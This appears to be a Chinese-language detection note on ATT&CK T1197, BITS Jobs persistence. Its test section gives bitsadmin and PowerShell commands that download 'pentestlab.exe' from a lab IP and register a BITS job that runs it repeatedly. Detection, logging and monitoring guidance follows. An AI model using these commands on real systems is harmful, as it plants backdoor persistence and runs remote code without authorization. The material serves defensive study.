 # T1197-win-BITS Jobs权限维持

## 来自ATT&CK的描述

Windows BITS（后台智能传输服务）是一种通过COM（组件对象模型）公开的低带宽异步文件传输机制。BITS通常由更新程序、消息程序和其他希望在后台运行（使用可用空闲带宽）而不中断其他网络应用的程序使用。文件传输任务被实现为BITS作业，其中包含一个或多个文件操作队列。

可以通过PowerShell和BITSAdmin工具访问BITS作业创建和管理接口。

攻击者可能会在运行恶意代码后滥用BITS来实现下载、执行甚至清理动作。BITS任务包含在BITS作业数据库中，不需创建新文件或修改注册表，且通常是主机防火墙允许的。启用BITS的执行还可以通过创建长期作业（默认最大生命周期为90天且可延长）或在作业完成或出现错误（包括系统重启后的错误）时调用任意程序来允许持久性。

BITS上传功能也可用于执行Exfiltration Over Alternative Protocol。

## 测试案例

Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。
从攻击的角度来看，可以滥用此功能，以便在受感染的主机上下载有效负载（可执行文件，PowerShell脚本，Scriptlet等）并在给定时间执行这些文件，以在红队操作中保持持久性。但是，与“ bitsadmin ” 进行交互需要管理员级别的权限。

执行以下命令会将恶意有效负载从远程位置下载到本地目录。

```dos
bitsadmin /transfer backdoor /download /priority high http://10.0.2.21/pentestlab.exe C:\tmp\pentestlab.exe #注意此处下载地址必须是标准的HTTP协议。
```

还有一个PowerShell cmdlet可以执行相同的任务。

```powershell
Start-BitsTransfer -Source "http://10.0.2.21/pentestlab.exe" -Destination "C:\tmp\pentestlab.exe"
```

将文件放入磁盘后，可以通过从“ bitsadmin ”实用程序执行以下命令来实现持久性。用法非常简单：

- 在创建参数需要作业的名称

``` dos
bitsadmin /create backdoor
```

- 该addfile需要文件的远程位置和本地路径

``` dos
bitsadmin /addfile backdoor "http://10.0.2.21/pentestlab.exe"  "C:\tmp\pentestlab.exe"
```

- 该SetNotifyCmdLine将执行的命令

```dos
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\pentestlab.exe NUL
```

- 所述SetMinRetryDelay定义时间回调（秒）

```dos
bitsadmin /SetMinRetryDelay "backdoor" 60
```

- 该简历参数将运行位工作

```dos
bitsadmin /resume backdoor
```

## 检测日志

windows 安全日志\windows BITS应用日志

## 测试复现

![image1](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110145812-668139170.png)

![image2](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110227491-23710429.png)

![image3](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110245500-1362389929.png)

## 测试留痕

![image4](https://s2.ax1x.com/2020/01/14/lqedzV.png)

![image5](https://s2.ax1x.com/2020/01/14/lqeWz6.png)

![image6](https://s2.ax1x.com/2020/01/14/lqmiYn.png)

## 检测规则/思路

建议非系统程序发起的BITS传送作业进行分析检测（白名单机制）。

BITS作为服务运行。可使用Sc查询实用程序（sc query bits）来检查其状态。可使用BITSAdmin工具（bitsadmin /list /allusers /verbose）枚举活跃的 BITS任务。

监控BITSAdmin工具（尤其是Transfer，Create，AddFile，SetNotifyFlags，SetNotifyCmdLine，SetMinRetryDelay，SetCustomHeaders和Resume命令选项）的使用及Windows事件日志来查看BITS活动。还要考虑通过解析BITS作业数据库来调查作业相关的更多详细信息。

监控和分析BITS生成的网络活动。BITS作业使用HTTP（S）和SMB进行远程连接，仅限于创建用户，并且仅在该用户登录时才起作用（即使用户将作业附加到服务账号，此规则也适用）。

## 参考推荐

Window权限维持（六）：BITS Jobs <https://www.cnblogs.com/xiaozi/p/11833583.html>

MITRE-ATT&CK-T1197：<https://attack.mitre.org/techniques/T1197/>

MITRE ATT&CK 攻击知识库（企业）中文版：<https://hansight.github.io/#/detail>

BITS持久化留痕日志文件下载地址：<https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES/blob/master/Persistence/persist_bitsadmin_Microsoft-Windows-Bits-Client-Operational.evtx>

